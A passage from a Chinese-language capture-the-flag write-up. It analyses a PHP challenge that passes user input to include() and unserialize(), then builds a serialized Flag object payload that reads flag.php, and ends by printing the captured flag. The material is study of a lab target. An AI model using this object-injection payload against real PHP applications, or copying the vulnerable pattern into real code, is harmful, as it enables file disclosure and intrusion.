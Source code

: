 ```php
    echo "hello friend!<br>";
    if(preg_match("/flag/",$file)){
        echo "no flag";
        exit();
    }else{
        include($file);
        $password = unserialize($password);
        echo $password;
    }
}else{
    echo "you are not the number ! ";
}
?>
```

在读取一下flag.php

![image-20221120191042403](C:\Users\xaioyu\AppData\Roaming\Typora\typora-user-images\image-20221120191042403.png)

![image-20221120191125810](C:\Users\xaioyu\AppData\Roaming\Typora\typora-user-images\image-20221120191125810.png) 在index.php中看这个意思就是    file中包含‘flag’就会退出

![image-20221120191238815](C:\Users\xaioyu\AppData\Roaming\Typora\typora-user-images\image-20221120191238815.png) 

这个else写到如果我的file不包含‘flag’，那么就会把那个文件包含进来，之后将password反序列化一下，并输出password的结果。

发现当Flag方法当做字符串执行时，会自动执行 __tostring 方法，方法中写了如果file文件存在，那么就输出file文件中的内容。我们要构造一个Flag类型的参数，并把这个参数传给password然后get进去。并且这个file的值要是hint.php（利用hint.php的函数）

```php
    <?php
    class Flag{
    public $file;
    }
    $a = new Flag();
    $a->file = "flag.php";
    $a = serialize($a);
    print_r($a);
    ?>
```

序列化后得到 

```
O:4:"Flag":1:{s:4:"file";s:8:"flag.php";} 
```

传入参数

![image-20221120192502180](C:\Users\xaioyu\AppData\Roaming\Typora\typora-user-images\image-20221120192502180.png)

flag{de410cd917e34263aa304297fa5bc9c9}

#### 签到

#### 签到1
